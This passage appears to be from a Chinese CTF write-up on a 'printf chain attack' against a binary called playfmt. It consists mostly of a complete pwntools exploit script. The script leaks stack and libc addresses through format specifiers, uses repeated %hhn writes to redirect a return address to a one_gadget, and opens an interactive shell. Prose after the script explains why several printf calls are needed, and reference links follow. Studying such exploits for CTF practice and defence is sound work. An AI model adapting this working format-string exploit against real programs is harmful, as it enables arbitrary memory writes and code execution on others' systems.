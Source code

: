 另一种EXP

```python
# coding=utf-8
from pwn import *
#io = remote('120.78.192.35', 9999)
io = process("./playfmt")
elf = ELF('./playfmt')
libc = ELF('/lib32/libc-2.23.so')
#context.log_level = 'DEBUG'
#gdb.attach(io,"b *0x0804889f")
io.recv()
io.sendline("%6$p%8$p")
io.recvuntil("0x")
stack_addr = int(io.recv(8),16)-0xffffd648+0xffffd610
io.recvuntil("0x")
libc.address = int(io.recv(8),16)-0xf7e41000+0xf7c91000
log.success("stack_addr:"+hex(stack_addr))
log.success("libc_addr:"+hex(libc.address))
io.recv()
offset0=0x18/4
offset1=0x38/4
offset2=0x68/4
def write_address(off0,off1,target_addr):
    io.sendline("%{}$p".format(off1))
    io.recvuntil("0x")
    addr1 = int(io.recv(8),16)&0xff
    io.recv()
    for i in range(4):
        io.sendline("%{}c%{}$hhn".format(addr1+i,off0))
        io.recv()
        io.sendline("%{}c%{}$hhn".format(target_addr&0xff,off1))
        io.recv()        
        target_addr=target_addr>>8
    io.sendline("%{}c%{}$hhn".format(addr1,off0))
    io.recv()

one_gadget = libc.address+ 0x5f065
print(hex(one_gadget))
write_address(offset0,offset1,stack_addr+0x1c)
#gdb.attach(io,"b *0x0804889f")
write_address(offset1,offset2,one_gadget)
io.sendline("quit")
io.interactive()
```

> 注意：这里我特别强调一点，在单次`printf`操作中，是没有办法完成printf成链攻击的，因为单次`printf`时，一旦你对已经修改过的地址的值进行修改时，则要不就直接`crash`，要不就根本没反应，所以一定要多次`printf`才能完成该攻击方式。这是我自己尝试过的，然后单次就能完成printf成链攻击，那么这将是一个非常致命的漏洞 

接下来简单说一下利用方式，`printf`成链攻击的实施一般至少需要两次`printf`才行（除非你运气好到爆棚，恰好有一个地址指向了函数的返回地址），第一次我们可以使`栈数据链`指向某个函数的返回地址，一般为了简单我们可以直接指向第二次`printf`的返回地址，由于栈布局是固定的，我们确实可以预测其返回地址。然后第二次printf操作时，便可以劫持其返回地址，然后重新返回`main`或者指向一个可以让`printf`复用的地址，然后我们就可以重复使用`printf`实现任意地址读写，这样就完成了一次`printf`成链攻击。 

> 参考文章
>
> 【1】非栈上格式化字符串漏洞利用技巧 ：https://www.anquanke.com/post/id/184717
>
> 【2】printf 成链攻击 ：http://blog.eonew.cn/archives/1196